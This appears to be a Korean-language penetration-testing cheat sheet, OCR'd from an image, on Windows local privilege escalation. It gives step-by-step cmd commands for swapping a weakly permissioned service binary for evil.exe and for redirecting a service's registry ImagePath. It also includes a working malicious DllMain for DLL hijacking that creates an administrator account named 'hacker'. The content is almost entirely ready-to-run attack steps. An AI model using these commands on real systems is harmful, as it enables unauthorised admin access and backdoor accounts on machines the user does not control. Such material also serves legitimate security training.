 ### 📁 Service Binary Permissions 익스플로잇

```cmd
:: 1. 서비스 실행 파일 권한 확인
sc qc VulnerableService
icacls "C:\Path\To\Service.exe"

:: 2. 쓰기 권한이 있는 경우 백업 생성
copy "C:\Path\To\Service.exe" "C:\Path\To\Service.exe.bak"

:: 3. 악성 실행 파일로 교체
copy evil.exe "C:\Path\To\Service.exe"

:: 4. 서비스 재시작
sc stop VulnerableService
sc start VulnerableService

:: 5. 원본 파일 복구
copy "C:\Path\To\Service.exe.bak" "C:\Path\To\Service.exe"
```

### 🗝️ Service Registry 익스플로잇

```cmd
:: 1. 서비스 레지스트리 키 권한 확인
accesschk.exe -kwsu %USERNAME% HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

:: 2. 특정 서비스 레지스트리 권한 확인
accesschk.exe -kwsu %USERNAME% HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VulnerableService

:: 3. 레지스트리에서 서비스 경로 변경
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\Temp\evil.exe" /f

:: 4. 서비스 재시작
sc stop VulnerableService
sc start VulnerableService
```

### 📚 DLL Hijacking 익스플로잇

```cmd
:: 1. 서비스가 로드하는 DLL 확인
:: Process Monitor나 Dependency Walker 사용
:: 또는 서비스 실행 파일 분석

:: 2. 찾을 수 없는 DLL이나 상대 경로로 로드되는 DLL 확인
:: 일반적인 후보: version.dll, dwmapi.dll, comctl32.dll

:: 3. 악성 DLL 생성 (C++)
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("net user hacker password123 /add & net localgroup administrators hacker /add");
    }
    return TRUE;
}

:: 4. DLL 컴파일
gcc -shared -o hijack.dll dllmain.c -Wl,--out-implib,hijack.lib

:: 5. DLL을 서비스 디렉토리에 배치
copy hijack.dll "C:\Path\To\Service\Directory\missing.dll"

```
